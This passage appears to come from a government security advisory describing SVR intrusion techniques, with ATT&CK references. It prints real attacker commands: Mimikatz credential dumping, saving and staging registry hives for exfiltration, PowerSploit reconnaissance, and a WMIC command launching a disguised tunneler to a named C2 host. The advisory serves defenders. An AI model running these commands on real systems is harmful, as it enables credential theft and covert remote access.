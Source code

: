 Privilege Escalation
To facilitate privilege escalation [T1098], the SVR used multiple techniques, including WinPEAS, NoLMHash registry key modification, and the Mimikatz tool.
The SVR modified the NoLMHash registry using the following reg command:
reg add HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa /v NoLMHash /t REG_DWORD /d "0" /f
The SVR used the following Mimikatz commands [T1003]:
privilege::debug
lsadump::cache
lsadump::secrets
lsadump::sam
sekurlsa::logonpasswords
Persistence
The SVR relied on scheduled tasks [T1053.005] to secure persistent execution of backdoors. Depending on the privileges the SVR had, their executables were stored in one of following directories:
C:\Windows\temp
C:\Windows\System32
C:\Windows\WinStore
The SVR made all modifications using the schtasks.exe binary. It then had multiple variants of arguments passed to schtasks.exe, which can be found in Appendix B – Indicators of Compromise.
To secure long-term access to the environment, the SVR used the Rubeus toolkit to craft Ticket Granting Tickets (TGTs) [T1558.001].
Sensitive Data Exfiltration [T1020]
The SVR exfiltrated the following Windows Registry hives from its victims [T1003]:
HKLM\SYSTEM
HKLM\SAM
HKLM\SECURITY
In order to exfiltrate Windows Registry, the SVR saved hives into files [T1003.002], packed them, and then exfiltrated them using a backdoor capability. it used “reg save” to save SYSTEM, SAM and SECURITY registry hives, and used powershell to stage .zip archives in the C:\Windows\Temp\ directory.
reg save HKLM\SYSTEM ""C:\Windows\temp\1\sy.sa"" /y
reg save HKLM\SAM ""C:\Windows\temp\1\sam.sa"" /y
reg save HKLM\SECURITY ""C:\Windows\temp\1\se.sa"" /y
powershell Compress-Archive -Path C:\Windows\temp\1\ -DestinationPath C:\Windows\temp\s.zip -Force & del C:\Windows\temp\1 /F /Q
In a few specific cases, the SVR used the SharpChromium tool to obtain sensitive browser data such as session cookies, browsing history, or saved logins.
SVR also used DSInternals open source tool to interact with Directory Services. DSInternals allows to obtain a sensitive Domain information.
Network Reconnaissance
After the SVR built a secure foothold and gained an awareness of a victim’s TeamCity server, it then focused on network reconnaissance [T1590.004]. The SVR performed network reconnaissance using a mix of built-in commands and additional tools, such as port scanner and PowerSploit, which it launched into memory [T1046]. The SVR executed the following PowerSploit commands:
Get-NetComputer
Get-NetGroup
Get-NetUser -UACFilter NOT_ACCOUNTDISABLE | select samaccountname, description, pwdlastset, logoncount, badpwdcount"
Get-NetDiDomain
Get-AdUser
Get-DomainUser -UserName
Get-NetUser -PreauthNotRequire
Get-NetComputer | select samaccountname
Get-NetUser -SPN | select serviceprincipalname
Tunneling into Compromised Environments
In selected environments the SVR used an additional tool named, “rr.exe”—a modified open source reverse socks tunneler named Rsockstun—to establish a tunnel to the C2 infrastructure [T1572].
The authoring agencies are aware of the following infrastructure used in conjunction with “rr.exe”:
65.20.97[.]203:443
Poetpages[.]com:8443
The SVR executed Rsockstun either in memory or using the Windows Management Instrumentation Command Line (WMIC) [T1047] utility after dropping it to disk:
wmic process call create "C:\Program Files\Windows Defender Advanced Threat Protection\Sense.exe -connect poetpages.com -pass M554-0sddsf2@34232fsl45t31"
Lateral Movement